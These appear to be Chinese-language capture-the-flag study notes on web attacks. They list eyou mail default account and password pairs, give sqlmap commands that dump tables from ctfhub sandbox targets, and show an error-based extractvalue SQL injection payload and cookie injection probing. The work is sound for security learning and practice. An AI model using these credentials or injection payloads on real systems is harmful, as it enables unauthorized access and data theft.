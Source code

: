 ### 11.默认口令

> 当看到一个比较流行的网页登录窗口的时候, 攻击者可以尝试通过搜索相关产品的厂家默认账号和密码. 可能有些用户没有修改账号和密码. 

例如: eyou 邮箱.

eyouuser eyou_admin 
eyougw admin@(eyou) 
admin +-ccccc 
admin cyouadmin



# SQl注入

1. **整型** 和 **字符型** 注入(使用sqlmap 依次执行下方的命令)

   **注意: 每个人的 url , 不要写错, 应该填写自己的目标url**

```
sqlmap -u http://challenge-55b8bfa6d87fb500.sandbox.ctfhub.com:10800/?id=1 --tables
sqlmap -u http://challenge-55b8bfa6d87fb500.sandbox.ctfhub.com:10800/?id=1 --T flag --tables
sqlmap -u http://challenge-55b8bfa6d87fb500.sandbox.ctfhub.com:10800/?id=1 -T flag --columns
sqlmap -u http://challenge-55b8bfa6d87fb500.sandbox.ctfhub.com:10800/?id=1 -T flag -C flag --dump

```

1. `--table`   和	`-T`    ========> 列出所有的表(此处的表叫 flag)
2. `--columns`  和 `-C`  =========>列出表名里的字段名 (此处的字段也叫 flag)
3. `--dump` 展现字段内所有的数据.



## 报错注入

```
http://challenge-15c1298fcd91ebd0.sandbox.ctfhub.com:10080/
?id=1 and extractvalue(1,concat(0x7e,database(),0x7e))--+
```



### Cookie注入

> 因为cookie里面有字段, 这个字段可以被带到数据库中, 所以才可以通过这个cookie中的字段进行注入.

1. 用BP抓取数据包, 发现cookie里面有字段, 查看有几个字段:

```
id = 1 order by 1
```

![image-20230402111108748](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230402111108748.png)



> 下面查看是否有回显,

![image-20230402111943629](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230402111943629.png)
